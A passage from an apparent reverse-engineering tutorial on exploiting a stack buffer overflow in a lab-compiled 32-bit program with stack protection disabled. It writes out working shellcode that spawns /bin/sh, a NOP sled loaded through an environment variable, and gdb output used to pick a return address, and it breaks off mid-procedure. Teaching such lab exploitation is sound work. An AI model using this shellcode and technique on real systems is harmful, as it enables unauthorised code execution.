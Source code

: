 1. We have removed the printf statements. So, we don't know the exact address. We are slowly going closer to reality :P

2. We are still not fully into reality because we will be compiling the program like this: 

		rev_eng_series/post_12$ gcc bof.c -o bof -m32 -fno-stack-protector -zexecstack

3. Let us first craft the payload: 

	* Let us put a nop-sled of size 5000 bytes. So, this is what our environment variable looks like: 

			rev_eng_series/post_12$ SHELLCODE=`python -c "print '\x90' * 5000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`

			rev_eng_series/post_12$ export SHELLCODE
	
	* Now, we need to decide what address we want to overwrite the Return Address of **func** with. Yes, we have to guess, but not simply any address. Let us do some analysis and then give it a guess. 

	* Open **bof** in gdb and find the Address of **SHELLCODE** variable. 

	* This is how it's look like: 

			0xffffbcc7:	"SHELLCODE=", '\220' <repeats 190 times>...
			0xffffbd8f:	'\220' <repeats 200 times>...
			0xffffbe57:	'\220' <repeats 200 times>...
			0xffffbf1f:	'\220' <repeats 200 times>...
			0xffffbfe7:	'\220' <repeats 200 times>...
			0xffffc0af:	'\220' <repeats 200 times>...
			0xffffc177:	'\220' <repeats 200 times>...
			0xffffc23f:	'\220' <repeats 200 times>...
			0xffffc307:	'\220' <repeats 200 times>...
			0xffffc3cf:	'\220' <repeats 200 times>...
			0xffffc497:	'\220' <repeats 200 times>...
			0xffffc55f:	'\220' <repeats 200 times>...
			0xffffc627:	'\220' <repeats 200 times>...
			0xffffc6ef:	'\220' <repeats 200 times>...
			0xffffc7b7:	'\220' <repeats 200 times>...
			0xffffc87f:	'\220' <repeats 200 times>...
			0xffffc947:	'\220' <repeats 200 times>...
			0xffffca0f:	'\220' <repeats 200 times>...
			0xffffcad7:	'\220' <repeats 200 times>...
			0xffffcb9f:	'\220' <repeats 200 times>...
			0xffffcc67:	'\220' <repeats 200 times>...
			0xffffcd2f:	'\220' <repeats 200 times>...
			0xffffcdf7:	'\220' <repeats 200 times>...
			0xffffcebf:	'\220' <repeats 200 times>...
			0xffffcf87:	'\220' <repeats 200 times>...
			0xffffd04f:	"\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

	* We will first make sure the exploit works by exploiting it with the help of gdb. 

	* So, the address is **0xffffbcc7** + 10. We are adding 10 because we don't want "SHELLCODE=". So, address from gdb is **0xffffbcd1**. Note that this could be different for you. 

	* Let us build the payload using **build_payload.c**. Let us give the Address to be **0xffffbcc7  + 1000** = **0xffffc0af**. So, in this case, control should go to some place inside the nop-sled. Let us see if this works. Change the address in **build_payload.c** according to the address you have got and store the payload in **payload.txt**. 
